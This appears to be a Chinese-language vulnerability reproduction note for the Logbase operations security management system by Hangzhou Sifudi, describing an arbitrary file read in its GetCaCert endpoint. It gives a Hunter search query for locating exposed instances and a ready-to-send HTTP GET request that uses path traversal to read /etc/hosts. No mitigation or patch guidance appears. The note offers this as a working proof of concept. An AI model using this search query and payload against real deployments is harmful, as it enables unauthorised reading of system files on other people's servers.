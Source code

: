 # 思福迪运维安全管理系统 GetCaCert存在任意文件读取漏洞

# 一、漏洞简介
<font style="color:rgb(0, 0, 0);">为满足用户对加强内部运维安全审计日益迫切的需要，杭州思福迪信息技术有限公司依托自身强大的研发能力，丰富的行业经验，自主研发了新一代软硬件一体化运维安全专用审计系统——Logbase运维安全管理系统。该系统支持对企业内部人员的维护行为进行全面的管理、审计，消除了传统审计系统中的盲点，使企业对运维人员的操作过程，能做到事前防范、事中控制、事后审计的能力，是企业IT内控最有效的运维管理平台。思福迪运维安全管理系统 GetCaCert存在任意文件读取漏洞。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 思福迪运维安全管理系统

# 三、资产测绘
+ hunter`app.name="Logbase 思福迪 运维安全系统"`
+ 特征

![1705244115545-ef7957e0-49a0-446a-af00-94cbec4e0d11.png](./img/q1E9jTVPnh7ZkQF_/1705244115545-ef7957e0-49a0-446a-af00-94cbec4e0d11-586111.png)

# 四、漏洞复现
```plain
GET /bhost/GetCaCert?a1=../../../../../etc/hosts HTTP/1.1
Host: 
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: gzip
Accept-Encoding: gzip, deflate, br
Content-Length: 0
```

![1705244843495-07e1b54b-81e9-4119-8b8f-0af9b5fdba17.png](./img/q1E9jTVPnh7ZkQF_/1705244843495-07e1b54b-81e9-4119-8b8f-0af9b5fdba17-171121.png)

![1705244860034-ecd21dc6-093f-4b2e-b277-97580ea1b8db.png](./img/q1E9jTVPnh7ZkQF_/1705244860034-ecd21dc6-093f-4b2e-b277-97580ea1b8db-040679.png)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/wuf31x217y4a3dvr>